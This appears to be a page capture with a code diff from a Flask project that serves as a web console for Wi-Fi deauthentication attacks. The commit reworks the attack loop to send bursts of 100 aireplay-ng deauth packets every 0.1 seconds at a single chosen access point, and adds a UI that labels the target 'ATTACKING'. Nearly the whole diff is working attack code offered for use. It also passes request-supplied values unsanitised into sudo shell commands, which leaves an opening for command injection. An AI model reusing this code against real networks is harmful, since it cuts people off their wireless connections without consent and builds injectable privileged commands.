

Before and after one commit to xforg3/xforg3, a Flask app: page / in a window 1280 px wide. Shown: the part 13-800 px from the top of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme; parts of the project's set-up code (start-up, migrations or seed data) failed here and were passed over.

Commit message:
ABBBBAAAAA

```diff
--- a/frequency/deauth/deauth-web/app.py
+++ b/frequency/deauth/deauth-web/app.py
@@ -18,6 +18,7 @@ original_iface = None
 attack_processes = {"sniff": None, "deauth": None}
 deauth_thread = None
 deauth_running = False
+current_target = None
 
 # ====================== FUNGSI MANAJEMEN INTERFACE ======================
 
@@ -143,7 +144,6 @@ def parse_csv(filename):
                 channel = parts[3].strip()
                 essid = parts[13].strip()
                 power_str = parts[8].strip() if len(parts) > 8 else ''
-                # Konversi power ke int
                 try:
                     power = int(power_str)
                 except:
@@ -191,7 +191,6 @@ def scan_wifi():
                     break
 
         if networks:
-            # Urutkan berdasarkan power (terbesar = terkuat), yang None ditaruh di bawah
             networks.sort(key=lambda x: x['power'] if x['power'] is not None else -1000, reverse=True)
             print(f"[+] Found {len(networks)} networks")
             return jsonify({"status": "success", "networks": networks})
@@ -214,7 +213,6 @@ def scan_wifi():
                             "power": None,
                             "signal_level": "Almost Hilang"
                         })
-            # Urutkan (fallback tidak punya power, tetap beri urutan)
             networks.sort(key=lambda x: x['power'] if x['power'] is not None else -1000, reverse=True)
             return jsonify({"status": "success", "networks": networks})
 
@@ -253,45 +251,87 @@ def stop_sniff_process():
         os.killpg(os.getpgid(attack_processes["sniff"].pid), signal.SIGTERM)
         attack_processes["sniff"] = None
 
-# ====================== DEAUTH MULTI-TARGET ======================
+# ====================== DEAUTH SINGLE TARGET (DIOPTIMALKAN) ======================
 
-def deauth_loop(targets, interface):
-    global deauth_running
+def deauth_loop_single(target, interface):
+    """
+    Loop deauth untuk satu target saja dengan optimasi:
+    - Burst packet yang lebih agresif
+    - Delay minimal antar paket
+    - Menggunakan channel target secara konsisten
+    """
+    global deauth_running, current_target
+    bssid = target['bssid']
+    channel = target['channel']
+    essid = target.get('essid', 'Unknown')
+
+    print(f"[*] Starting optimized deauth on {bssid} (CH {channel}) - {essid}")
+
+    # Set channel ke target
+    set_channel(interface, channel)
+
+    # HITUNG TOTAL PAKET YANG DIKIRIM
+    packet_count = 0
+    attack_rounds = 0
+
     while deauth_running:
-        for target in targets:
-            if not deauth_running:
-                break
-            bssid = target['bssid']
-            channel = target['channel']
-            set_channel(interface, channel)
-            cmd = f"sudo aireplay-ng --deauth 10 -a {bssid} {interface}"
-            try:
-                subprocess.run(cmd, shell=True, timeout=2, check=False)
-            except:
-                pass
-            time.sleep(0.5)
-        time.sleep(1)
+        attack_rounds += 1
+
+        # Kirim BURST deauth dengan jumlah paket yang banyak (100 paket)
+        # Ini lebih kuat karena langsung mengirim banyak paket sekaligus
+        cmd = f"sudo aireplay-ng --deauth 100 -a {bssid} {interface}"
+
+        try:
+            # Jalankan dengan timeout singkat (1 detik) agar tidak blocking
+            proc = subprocess.run(cmd, shell=True, timeout=1, capture_output=True, text=True)
+            packet_count += 100
+
+            # Log setiap 10 round
+            if attack_rounds % 10 == 0:
+                print(f"[*] Attack round {attack_rounds} | Total packets: {packet_count}")
+
+        except subprocess.TimeoutExpired:
+            # Timeout expired tapi proses masih jalan, kita lanjutkan
+            pass
+        except Exception as e:
+            print(f"[-] Error in deauth: {e}")
+
+        # Delay sangat minimal (0.1 detik) untuk efisiensi dan stabilitas
+        time.sleep(0.1)
+
+    print(f"[*] Deauth stopped. Total packets sent: {packet_count}")
 
 @app.route('/start_deauth', methods=['POST'])
 def start_deauth():
-    global deauth_thread, deauth_running
+    global deauth_thread, deauth_running, current_target
     data = request.json
     targets = data.get('targets')
+
     if not targets or len(targets) == 0:
         return jsonify({"status": "error", "message": "No targets selected"})
+
+    # Ambil target pertama saja (single target)
+    target = targets[0]
+    current_target = target
 
     interface = get_monitor_interface()
     if not interface:
         return jsonify({"status": "error", "message": "Monitor interface not found"})
 
+    # Stop deauth yang sedang berjalan
     stop_deauth_process()
+
+    # Start deauth baru
     deauth_running = True
-    deauth_thread = threading.Thread(target=deauth_loop, args=(targets, interface))
+    deauth_thread = threading.Thread(target=deauth_loop_single, args=(target, interface))
     deauth_thread.daemon = True
     deauth_thread.start()
 
-    target_list = ", ".join([t['bssid'] for t in targets])
-    return jsonify({"status": "success", "message": f"Deauth started on {len(targets)} target(s): {target_list}"})
+    return jsonify({
+        "status": "success",
+        "message": f"Deauth started on {target['bssid']} (CH {target['channel']})",
+        "target": target
+    })
 
 @app.route('/stop_deauth', methods=['POST'])
 def stop_deauth():
@@ -299,12 +339,31 @@ def stop_deauth():
     return jsonify({"status": "success", "message": "Deauth stopped"})
 
 def stop_deauth_process():
-    global deauth_running, deauth_thread
+    global deauth_running, deauth_thread, current_target
     deauth_running = False
     if deauth_thread and deauth_thread.is_alive():
-        deauth_thread.join(timeout=2)
+        deauth_thread.join(timeout=3)
     deauth_thread = None
+    current_target = None
+
+    # Matikan semua proses aireplay-ng yang mungkin masih berjalan
     subprocess.run("sudo pkill -f 'aireplay-ng --deauth'", shell=True, check=False)
+
+# ====================== GET CURRENT TARGET ======================
+
+@app.route('/current_target', methods=['GET'])
+def get_current_target():
+    global current_target
+    if current_target and deauth_running:
+        return jsonify({
+            "status": "running",
+            "target": current_target
+        })
+    else:
+        return jsonify({
+            "status": "idle",
+            "target": None
+        })
 
 # ====================== CLEANUP ======================
 
--- a/frequency/deauth/deauth-web/templates/index.html
+++ b/frequency/deauth/deauth-web/templates/index.html
@@ -590,6 +590,25 @@
             transition: color 0.3s;
         }
 
+        /* Target Info */
+        .target-info {
+            margin-top: 10px;
+            padding: 8px;
+            background: var(--accent-orange-dim);
+            border: 1px solid var(--border-orange);
+            font-size: 0.7rem;
+            color: var(--text-bright);
+            transition: background 0.3s, border 0.3s, color 0.3s;
+            word-break: break-all;
+        }
+        .target-info .label {
+            color: var(--text-dim);
+        }
+        .target-info .value {
+            font-weight: bold;
+            color: var(--text-main);
+        }
+
         /* ================= RESPONSIVE ================= */
         @media (max-width: 1200px) {
             .grid-content {
@@ -767,6 +786,10 @@
                 padding: 4px 10px;
                 font-size: 0.55rem;
             }
+            .target-info {
+                font-size: 0.6rem;
+                padding: 6px;
+            }
         }
 
         @media (max-width: 480px) {
@@ -870,7 +893,14 @@
                         <button class="btn-action" id="btnStopDeauth" onclick="stopDeauth()" disabled>⏹ STOP</button>
                     </div>
                     <div style="margin-top:10px;font-size:0.65rem;color:var(--text-dim);transition:color 0.3s;">
-                        TARGETS: <span id="deauth-target-count">0</span> selected
+                        TARGET: <span id="deauth-target-count">0</span> selected
+                    </div>
+                    <!-- Target Info -->
+                    <div class="target-info" id="target-info" style="display:none;">
+                        <div><span class="label">BSSID:</span> <span class="value" id="target-bssid">-</span></div>
+                        <div><span class="label">CH:</span> <span class="value" id="target-channel">-</span></div>
+                        <div><span class="label">ESSID:</span> <span class="value" id="target-essid">-</span></div>
+                        <div><span class="label">Status:</span> <span class="value" id="target-status">-</span></div>
                     </div>
                 </div>
 
@@ -900,6 +930,7 @@
                         </span>
                         <button class="btn-action" style="padding:2px 8px;font-size:0.55rem;" onclick="selectAll()">ALL</button>
                         <button class="btn-action" style="padding:2px 8px;font-size:0.55rem;" onclick="deselectAll()">NONE</button>
+                        <span style="font-size:0.6rem;color:var(--text-dim);margin-left:4px;">(SINGLE TARGET MODE)</span>
                     </div>
 
                     <div class="networks-table-container" id="table-container">
@@ -1011,6 +1042,7 @@
     let consoleLines = [];
     let attackLogs = [];
     let deauthStartTime = null;
+    let deauthTarget = null;
 
     // ============================================================
     // PAGE NAVIGATION
@@ -1234,16 +1266,23 @@
     }
 
     // ============================================================
-    // SELECTION
+    // SELECTION (Single Target Mode)
     // ============================================================
     function toggleAllCheckboxes() {
         const checked = document.getElementById('select-all').checked;
-        document.querySelectorAll('.target-checkbox').forEach(cb => cb.checked = checked);
+        document.querySelectorAll('.target-checkbox').forEach(cb => cb.checked = false);
+        // Only select first one if checked
+        if (checked) {
+            const first = document.querySelector('.target-checkbox');
+            if (first) first.checked = true;
+        }
         updateSelection();
     }
 
     function selectAll() {
-        document.querySelectorAll('.target-checkbox').forEach(cb => cb.checked = true);
+        document.querySelectorAll('.target-checkbox').forEach(cb => cb.checked = false);
+        const first = document.querySelector('.target-checkbox');
+        if (first) first.checked = true;
         document.getElementById('select-all').checked = true;
         updateSelection();
     }
@@ -1257,15 +1296,33 @@
     function updateSelection() {
         const checkboxes = document.querySelectorAll('.target-checkbox:checked');
         const count = checkboxes.length;
-        selectedTargets = Array.from(checkboxes).map(cb => ({
-            bssid: cb.dataset.bssid,
-            channel: cb.dataset.channel,
-            essid: cb.dataset.essid || 'Unknown'
-        }));
 
-        document.getElementById('selected-count').textContent = count;
-        document.getElementById('deauth-target-count').textContent = count;
+        // Single target mode: only keep the first selected
+        if (count > 1) {
+            // Uncheck all except the first
+            const first = checkboxes[0];
+            document.querySelectorAll('.target-checkbox').forEach(cb => {
+                if (cb !== first) cb.checked = false;
+            });
+            // Re-get checkboxes
+            const newCheckboxes = document.querySelectorAll('.target-checkbox:checked');
+            selectedTargets = Array.from(newCheckboxes).map(cb => ({
+                bssid: cb.dataset.bssid,
+                channel: cb.dataset.channel,
+                essid: cb.dataset.essid || 'Unknown'
+            }));
+        } else {
+            selectedTargets = Array.from(checkboxes).map(cb => ({
+                bssid: cb.dataset.bssid,
+                channel: cb.dataset.channel,
+                essid: cb.dataset.essid || 'Unknown'
+            }));
+        }
 
+        document.getElementById('selected-count').textContent = selectedTargets.length;
+        document.getElementById('deauth-target-count').textContent = selectedTargets.length;
+
+        // Update row highlighting
         document.querySelectorAll('#network-body tr').forEach(row => {
             const cb = row.querySelector('.target-checkbox');
             if (cb && cb.checked) {
@@ -1275,15 +1332,25 @@
             }
         });
 
-        if (count > 0) {
-            document.getElementById('deauth-command-text').textContent = `${count} TARGET(S) SELECTED`;
+        // Update target info
+        if (selectedTargets.length === 1) {
+            const t = selectedTargets[0];
+            document.getElementById('target-info').style.display = 'block';
+            document.getElementById('target-bssid').textContent = t.bssid;
+            document.getElementById('target-channel').textContent = t.channel;
+            document.getElementById('target-essid').textContent = t.essid;
+            document.getElementById('target-status').textContent = isDeauthRunning ? 'ATTACKING' : 'READY';
+            document.getElementById('target-status').style.color = isDeauthRunning ? 'var(--green)' : 'var(--text-main)';
+            document.getElementById('deauth-command-text').textContent = `TARGET: ${t.essid} (${t.bssid})`;
         } else {
-            document.getElementById('deauth-command-text').textContent = 'WAITING FOR COMMAND...';
+            document.getElementById('target-info').style.display = 'none';
+            document.getElementById('deauth-command-text').textContent = selectedTargets.length > 0 ?
+                `${selectedTargets.length} TARGET(S) SELECTED` : 'WAITING FOR COMMAND...';
         }
     }
 
     // ============================================================
-    // DEAUTH
+    // DEAUTH (Single Target)
     // ============================================================
     function toggleDeauth() {
         if (isDeauthRunning) {
@@ -1296,10 +1363,17 @@
     function startDeauth() {
         const targets = selectedTargets;
         if (targets.length === 0) {
-            addConsoleLine('No targets selected for deauth!', 'warn');
-            alert('Select at least 1 target from the table!');
+            addConsoleLine('No target selected for deauth!', 'warn');
+            alert('Select 1 target from the table!');
             return;
         }
+
+        if (targets.length > 1) {
+            addConsoleLine('Multiple targets selected! Only first target will be used.', 'warn');
+        }
+
+        const target = targets[0];
+        deauthTarget = target;
 
         const btn = document.getElementById('btnStartDeauth');
         btn.disabled = true;
@@ -1310,7 +1384,7 @@
         fetch('/start_deauth', {
             method: 'POST',
             headers: { 'Content-Type': 'application/json' },
-            body: JSON.stringify({ targets: targets.map(t => ({ bssid: t.bssid, channel: t.channel })) })
+            body: JSON.stringify({ targets: [target] })
         })
         .then(res => res.json())
         .then(data => {
@@ -1318,15 +1392,15 @@
                 isDeauthRunning = true;
                 document.getElementById('deauth-status-big').textContent = 'RUNNING';
                 document.getElementById('deauth-status-big').className = 'status-big running';
-                document.getElementById('deauth-command-text').textContent = `ATTACKING ${targets.length} TARGET(S)...`;
+                document.getElementById('deauth-command-text').textContent = `ATTACKING ${target.essid}...`;
                 document.getElementById('btnStartDeauth').textContent = '● ATTACKING';
                 document.getElementById('btnStartDeauth').className = 'btn-action danger filled';
                 document.getElementById('btnStopDeauth').disabled = false;
                 document.getElementById('status-text').textContent = 'STATUS: DEAUTH ACTIVE';
-                addConsoleLine(`Deauth started on ${targets.length} target(s)`, 'success');
-                targets.forEach(t => {
-                    addConsoleLine(`→ ${t.bssid} (CH ${t.channel}) - ${t.essid}`, 'info');
-                });
+                document.getElementById('target-status').textContent = 'ATTACKING';
+                document.getElementById('target-status').style.color = 'var(--green)';
+                addConsoleLine(`Deauth started on ${target.bssid} (CH ${target.channel}) - ${target.essid}`, 'success');
+                addConsoleLine('⚡ OPTIMIZED SINGLE TARGET MODE ACTIVE', 'info');
             } else {
                 addConsoleLine(`Deauth error: ${data.message}`, 'error');
                 resetDeauthUI();
@@ -1356,15 +1430,15 @@
                 isDeauthRunning = false;
                 addConsoleLine('Deauth stopped', 'info');
 
-                selectedTargets.forEach(t => {
+                if (deauthTarget) {
                     addAttackLog({
-                        bssid: t.bssid,
-                        channel: t.channel,
-                        essid: t.essid || 'Unknown',
+                        bssid: deauthTarget.bssid,
+                        channel: deauthTarget.channel,
+                        essid: deauthTarget.essid || 'Unknown',
                         status: 'stopped',
                         duration: durationStr
                     });
-                });
+                }
 
                 resetDeauthUI();
                 document.getElementById('status-text').textContent = 'STATUS: READY';
@@ -1378,6 +1452,7 @@
     function resetDeauthUI() {
         isDeauthRunning = false;
         deauthStartTime = null;
+        deauthTarget = null;
         document.getElementById('deauth-status-big').textContent = 'IDLE';
         document.getElementById('deauth-status-big').className = 'status-big idle';
         document.getElementById('deauth-command-text').textContent = 'WAITING FOR COMMAND...';
@@ -1385,7 +1460,12 @@
         document.getElementById('btnStartDeauth').className = 'btn-action filled';
         document.getElementById('btnStopDeauth').disabled = true;
         document.getElementById('status-text').textContent = 'STATUS: READY';
-        if (selectedTargets.length > 0) {
+        document.getElementById('target-status').textContent = 'READY';
+        document.getElementById('target-status').style.color = 'var(--text-main)';
+        if (selectedTargets.length === 1) {
+            const t = selectedTargets[0];
+            document.getElementById('deauth-command-text').textContent = `TARGET: ${t.essid} (${t.bssid})`;
+        } else if (selectedTargets.length > 0) {
             document.getElementById('deauth-command-text').textContent = `${selectedTargets.length} TARGET(S) SELECTED`;
         }
     }
@@ -1414,6 +1494,7 @@
         renderLogs();
         addConsoleLine('SYSTEM INITIALIZED. NODE_01 ONLINE.', 'success');
         addConsoleLine('SCANNING FREQUENCIES 2.4GHz / 5GHz...', 'info');
+        addConsoleLine('⚡ SINGLE TARGET MODE ACTIVE', 'info');
         document.getElementById('status-text').textContent = 'STATUS: READY';
         setTimeout(scanNetworks, 1500);
     });
@@ -1452,7 +1533,7 @@
     console.log('%c ██║╚██╗██║██║   ██║██║  ██║██╔══╝  ██╔══██║██║   ██║', 'color:#ff7700;font-size:10px;');
     console.log('%c ██║ ╚████║╚██████╔╝██████╔╝███████╗██║  ██║╚██████╔╝', 'color:#ff7700;font-size:10px;');
     console.log('%c ╚═╝  ╚═══╝ ╚═════╝ ╚═════╝ ╚══════╝╚═╝  ╚═╝ ╚═════╝ ', 'color:#ff7700;font-size:10px;');
-    console.log('%c NODE_01 ACTIVE - WIRELESS ATTACK INTERFACE v2.0 ', 'background:#ff7700;color:#1a1a1a;font-weight:bold;font-size:14px;padding:4px 8px;');
+    console.log('%c NODE_01 ACTIVE - SINGLE TARGET DEAUTH v3.0 ', 'background:#ff7700;color:#1a1a1a;font-weight:bold;font-size:14px;padding:4px 8px;');
 </script>
 
 </body>
```
